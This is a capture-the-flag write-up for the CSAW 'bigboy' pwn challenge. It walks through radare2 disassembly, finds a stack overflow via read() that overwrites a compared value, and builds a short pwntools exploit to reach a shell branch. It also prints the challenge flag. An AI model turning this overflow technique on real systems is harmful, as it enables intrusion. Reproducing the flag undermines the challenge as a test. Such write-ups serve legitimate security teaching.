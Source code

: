 # bigboy
Points: 25

## Category
Pwn

## Question
>Only big boi pwners will get this one!
>
>`nc pwn.chal.csaw.io 9000`


## Solution
We are given a file named [boi](distrib/boi).
Using the _file_ command, we are able to deduce that it is a 64-bit ELF executable

```
$ file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

We can use radare2 to analyse the binary by doing `r2 -d ./boi`.

Do `aa` and `afl` to analyse and list the functions.

Do `s main` to seek to main function and do `pdf` to see the assembler code.

```
$ r2 -d ./boi 
Process with PID 3550 started...
= attach 3550 3550
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f215efbf210]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x7f215efbf210]> afl
0x00400498    3 26           sym._init
0x004004d0    1 6            sym.imp.puts
0x004004e0    1 6            sym.imp.__stack_chk_fail
0x004004f0    1 6            sym.imp.system
0x00400500    1 6            sym.imp.read
0x00400510    1 6            sym.imp.__libc_start_main
0x00400520    1 6            fcn.00400520
0x00400530    1 41           entry0
0x00400560    4 50   -> 41   sym.deregister_tm_clones
0x004005a0    3 53           sym.register_tm_clones
0x004005e0    3 28           sym.__do_global_dtors_aux
0x00400600    4 38   -> 35   entry1.init
0x00400626    1 27           sym.run_cmd
0x00400641    6 159          main
0x004006e0    4 101          sym.__libc_csu_init
0x00400750    1 2            sym.__libc_csu_fini
0x00400754    1 9            sym._fini
[0x7f215efbf210]> s main
[0x00400641]>
```

Assembler view
```asm
/ (fcn) main 159
|   main (int arg1, int arg2);
|           ; var int local_40h @ rbp-0x40
|           ; var int local_34h @ rbp-0x34
|           ; var int local_30h @ rbp-0x30
|           ; var int local_28h @ rbp-0x28
|           ; var int local_20h @ rbp-0x20
|           ; var int local_1ch @ rbp-0x1c
|           ; var int local_18h @ rbp-0x18
|           ; var int local_8h @ rbp-0x8
|           ; DATA XREF from entry0 (0x40054d)
|           0x00400641      55             push rbp
|           0x00400642      4889e5         mov rbp, rsp
|           0x00400645      4883ec40       sub rsp, 0x40               ; '@'
|           0x00400649      897dcc         mov dword [local_34h], edi  ; arg1
|           0x0040064c      488975c0       mov qword [local_40h], rsi  ; arg2
|           0x00400650      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00400659      488945f8       mov qword [local_8h], rax
|           0x0040065d      31c0           xor eax, eax
|           0x0040065f      48c745d00000.  mov qword [local_30h], 0
|           0x00400667      48c745d80000.  mov qword [local_28h], 0
|           0x0040066f      48c745e00000.  mov qword [local_20h], 0
|           0x00400677      c745e8000000.  mov dword [local_18h], 0
|           0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
|           0x00400685      bf64074000     mov edi, str.Are_you_a_big_boiiiii ; 0x400764 ; "Are you a big boiiiii??"
|           0x0040068a      e841feffff     call sym.imp.puts           ; int puts(const char *s)
|           0x0040068f      488d45d0       lea rax, qword [local_30h]
|           0x00400693      ba18000000     mov edx, 0x18               ; 24
|           0x00400698      4889c6         mov rsi, rax
|           0x0040069b      bf00000000     mov edi, 0
|           0x004006a0      e85bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x004006a5      8b45e4         mov eax, dword [local_1ch]
|           0x004006a8      3deebaf3ca     cmp eax, 0xcaf3baee
|       ,=< 0x004006ad      750c           jne 0x4006bb
|       |   0x004006af      bf7c074000     mov edi, str.bin_bash       ; 0x40077c ; "/bin/bash"
|       |   0x004006b4      e86dffffff     call sym.run_cmd
|      ,==< 0x004006b9      eb0a           jmp 0x4006c5
|      |`-> 0x004006bb      bf86074000     mov edi, str.bin_date       ; 0x400786 ; "/bin/date"
|      |    0x004006c0      e861ffffff     call sym.run_cmd
|      |    ; CODE XREF from main (0x4006b9)
|      `--> 0x004006c5      b800000000     mov eax, 0
|           0x004006ca      488b4df8       mov rcx, qword [local_8h]
|           0x004006ce      6448330c2528.  xor rcx, qword fs:[0x28]
|       ,=< 0x004006d7      7405           je 0x4006de
|       |   0x004006d9      e802feffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       `-> 0x004006de      c9             leave
\           0x004006df      c3             ret
```

From the assembly code, we can tell that it is trying to compare the value _0xdeadbeef_ to _0xcaf3baee_.

Upon closer inspection of the binary, we see that there is a _read()_ function which will give us a way to overflow the stack with our own values.

To find out how much padding we need, we can use a simple pattern such as the alphabet:
_AAAABBBBCCCCDDDDEEEEFFFFGGGG_

Let's set a breakpoint just before the _cmp_ instruction at address _0x004006a8_ by doing `db 0x004006a8`.

We can now run the program by doing `dc`. We can get the registers at the breakpoint by doing `dr eax`.

```
[0x00400641]> db 0x004006a8
[0x00400641]> dc
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP
hit breakpoint at: 4006a8
|ERROR| Invalid command 'GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP' (0x47)
[0x004006a8]> dr eax
0x46464646
[0x004006a8]> 
```

As we can see, the register _eax_ has been overwritten from _0xdeadbeef_ to _0x46464646_. Using Python, we can easily check what character that is

```python
>>> chr(0x46)
'F'
```

Now we can calculate the padding required by finding out the length of characters required before reaching the first _F_

```python
>>> len('AAAABBBBCCCCDDDDEEEE')
20
```

Now we can to overwrite _eax_ with whatever value we want. In this case, they want it to be _0xcaf3baee_. We will need little endian formatting.

Converting _0xcaf3baee_ to little endian we get _\xee\xba\xf3\xca_. This can be done by using the _struct_ module in python

```python
>>> import struct
>>> struct.pack('I', 0xcaf3baee)
'\xee\xba\xf3\xca'
```

Now we can write our exploit script. First we pad using letter 'A's. We figured out previously that the padding is _20_. We also found out that the payload is _\xee\xba\xf3\xca_. We can combine these 2 information and send to the remote server, with the help of pwntools.

```python
from pwn import *

padding = 'A' * 20 # Creates a padding of 20 bytes
payload = p32(0xcaf3baee) # Sets value to overwrite. Similar to struct.pack('I', 0xcaf3baee)
exploit = padding + payload
# Send payload to remote server.
```

Working solution in [solve.py](solve.py)

### Flag
`flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`

## Credits
Solved by: [@PlatyPew](https://github.com/PlatyPew)
